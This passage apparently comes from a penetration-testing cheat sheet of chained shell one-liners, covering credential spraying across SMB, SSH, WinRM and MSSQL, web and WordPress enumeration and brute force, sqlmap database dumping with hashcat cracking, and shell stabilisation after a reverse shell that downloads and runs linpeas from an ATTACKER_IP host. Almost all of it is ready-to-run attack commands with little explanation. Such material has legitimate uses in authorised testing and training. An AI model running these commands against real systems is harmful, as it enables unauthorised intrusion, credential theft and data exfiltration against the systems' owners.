 ### Credential Spray Across All Services
```bash
# Found password? Test EVERYWHERE in one line
PASSWORD="FoundPass123!" && \
netexec smb 10.10.10.0/24 -u admin -p "$PASSWORD" | tee smb_results.txt && \
netexec ssh 10.10.10.0/24 -u admin -p "$PASSWORD" | tee ssh_results.txt && \
netexec winrm 10.10.10.0/24 -u admin -p "$PASSWORD" | tee winrm_results.txt && \
netexec mssql 10.10.10.0/24 -u admin -p "$PASSWORD" | tee mssql_results.txt
```

---

## Web Application

### Complete Web Enumeration Chain
```bash
# Tech fingerprint → Directory enum → Check common files → Start nuclei
whatweb http://TARGET && \
gobuster dir -u http://TARGET -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50 > gobuster.txt & \
curl http://TARGET/robots.txt && curl http://TARGET/.git/config && curl http://TARGET/.env && \
nuclei -u http://TARGET -t ~/nuclei-templates/ &
```

### WordPress Complete Chain
```bash
# Scan → Enumerate users → Try xmlrpc brute force
wpscan --url http://TARGET --enumerate vp,vt,u --api-token TOKEN && \
wpscan --url http://TARGET -U admin -P /usr/share/wordlists/rockyou.txt --max-threads 50
```

---

## Exploitation

### SQL Injection Quick Test Chain
```bash
# Test → Extract DB → Dump users → Crack passwords
curl "http://TARGET/page.php?id=1'" && \
sqlmap -u "http://TARGET/page.php?id=1" --batch --dbs && \
sqlmap -u "http://TARGET/page.php?id=1" -D webapp -T users --dump --batch && \
hashcat -m 0 extracted_hashes.txt /usr/share/wordlists/rockyou.txt --force
```

### Get Shell → Stabilize → Enumerate
```bash
# After getting reverse shell:
python3 -c 'import pty;pty.spawn("/bin/bash")' && \
export TERM=xterm && \
sudo -l && \
wget http://ATTACKER_IP/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh
```

---